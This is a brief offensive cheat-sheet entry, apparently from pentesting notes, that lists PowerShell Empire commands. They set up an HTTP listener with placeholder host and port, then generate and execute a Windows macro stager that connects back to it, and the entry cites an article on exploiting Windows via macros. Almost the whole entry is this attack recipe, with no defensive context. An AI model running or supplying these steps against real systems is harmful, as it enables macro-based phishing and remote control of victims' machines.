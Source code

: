 # Empire

```
uselistener http

set Host <IP>

set Port <PORT>

usestager windows/macro

set Listener http

execute
```

---
## References

- [Hacking Articles: Multiple Ways to Exploit Windows Systems using Macros](https://www.hackingarticles.in/multiple-ways-to-exploit-windows-systems-using-macros/)